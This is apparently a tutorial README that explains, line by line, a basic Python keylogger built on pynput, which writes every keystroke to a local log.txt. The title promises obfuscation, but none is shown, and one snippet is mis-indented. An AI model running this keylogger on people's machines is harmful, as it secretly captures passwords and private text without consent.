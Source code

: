 ## Creating and Obfuscating a Keylogger using Python

## INDEX
- Importing Required Module
- Defining 'log-keystroke' Function
- Handling Special Keys
- Logging The Key Strokes
- Starting Key Listener
- Summary

## 1. Importing Required Modules
    
    from pynput.keyboard import Listener

This line imports the Listener class from the pynput.keyboard module. pynput is a library used to control and monitor input devices like the keyboard and mouse in Python. The Listener class allows us to monitor keyboard events such as key presses.

## 2. Defining 'log-keystroke' Function

    def log_keystroke(key):
        key = str(key).replace("'", "")

This is the beginning of a function called log_keystroke, which will handle each key press event.

<b>key = str(key).replace("'", ""):</b>

The key parameter represents the key that was pressed. It's converted to a string, and any single quotes (') are removed. This is done because keys are often represented as strings in the form "'a'", and we want to clean this up for easier reading and logging.

## 3. Handling Special Keys

    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift_r':
        key = ''
    if key == "Key.enter":
        key = '\n'
    if key == 'Key.alt_l' or key == 'Key.alt_r':
        key = ''
    if key == 'Key.tab':
        key = ''
    if key == 'Key.backspace':
        key = ''

This part of the code checks if the pressed key is a special key and replaces it with a corresponding character:

<b>if key == 'Key.space': key = ' '</b>

If the pressed key is the space bar (Key.space), it replaces it with an actual space character (' ').

<b>if key == 'Key.shift_r': key = ''</b>

If the pressed key is the right Shift key (Key.shift_r), it replaces it with an empty string. The Shift key by itself does not produce any character, so it's effectively ignored.

<b>if key == "Key.enter": key = '\n'</b>

If the pressed key is the Enter key (Key.enter), it replaces it with a newline character ('\n').

<b>if key == 'Key.alt_l' or key == 'Key.alt_r': key = ''</b>

If the pressed key is the left or righ Alt key (Key.alt_r) or (Key.alt_l), it replaces it with an empty string.

<b>if key == 'Key.tab': key = ''</b>

If the pressed key is the tab key (Key.tab), it replaces it with an empty string.

<b>if key == 'Key.backspace': key = ''</b>

If the pressed key is the backspace key (Key.backspace), it replaces it with an empty string.

## 4. Logging The Keystrokes
      
      with open("log.txt", 'a') as f:
        f.write(key)
This part of the function opens a file named log.txt in append mode ('a').
<b>with open("log.txt", 'a') as f:</b>
This line writes the processed key (after any necessary replacements) to the file. Each key press is logged sequentially.

## 5. Starting the Key Listner
    with Listener(on_press=log_keystroke) as l:
    l.join()
This part of the code sets up the keyboard listener:
<b>with Listener(on_press=log_keystroke) as l:</b>
A Listener object is created, and the on_press event is tied to the log_keystroke function. This means that every time a key is pressed, the log_keystroke function will be called.
<b>l.join()</b>
The join() method is called on the listener, which makes the program wait for keyboard events indefinitely. The program will continue to run, logging all keystrokes until it is manually stopped.

## Summary

This script sets up a basic keylogger that captures every key pressed and writes it to a file named log.txt. It handles regular characters, as well as some special keys like space, shift, and enter, tab and alt. The pynput library is used to monitor the keyboard, and the listener runs indefinitely, capturing and logging each key press.


        
